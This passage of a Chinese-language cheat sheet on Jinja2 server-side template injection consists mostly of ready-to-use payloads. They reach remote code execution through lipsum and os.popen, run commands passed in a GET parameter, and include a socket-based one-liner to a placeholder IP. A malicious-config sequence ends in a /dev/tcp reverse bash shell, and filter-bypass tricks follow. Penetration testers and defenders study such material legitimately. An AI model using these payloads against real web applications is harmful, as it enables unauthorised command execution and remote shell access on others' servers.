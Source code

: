 通过[objectwalker](https://github.com/p0dalirius/objectwalker)，我们可以找到从`lipsum`到`os`模块的路径。这是目前已知的在Jinja2模板中实现RCE的最短有效载荷：

```python
{{ lipsum.__globals__["os"].popen('id').read() }}
```

来源：https://twitter.com/podalirius_/status/1655970628648697860

#### 利用SSTI调用subprocess.Popen

:warning: 数字 396 会根据应用程序的不同而变化。

```python
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

#### 在不猜测偏移量的情况下，利用SSTI调用Popen

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

通过简单地修改有效载荷来清理输出并便于命令输入（https://twitter.com/SecGus/status/1198976764351066113）在另一个GET参数中包含一个名为"input"的变量，其中包含您想要运行的命令（例如：&input=ls）

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
```

#### 利用SSTI编写恶意配置文件。

```python
# 恶意配置
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output

RUNCMD = check_output
') }}

# 加载恶意配置
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  

# 连接到恶意主机
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}
```

### Jinja2 - 过滤器绕过

```python
request.__class__
request["__class__"]
```
